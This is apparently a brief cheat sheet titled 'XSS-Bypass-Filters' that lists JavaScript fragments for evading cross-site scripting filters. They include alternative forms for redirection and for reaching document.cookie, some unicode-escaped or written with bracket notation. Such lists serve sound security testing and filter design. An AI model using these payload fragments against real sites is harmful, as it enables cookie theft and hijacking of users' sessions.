 # XSS-Bypass-Filters

### Redirection
```
document.location=
window.location=
this["window"]["location"]=
document.location.href=
location.href=
```

### Link


### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
```


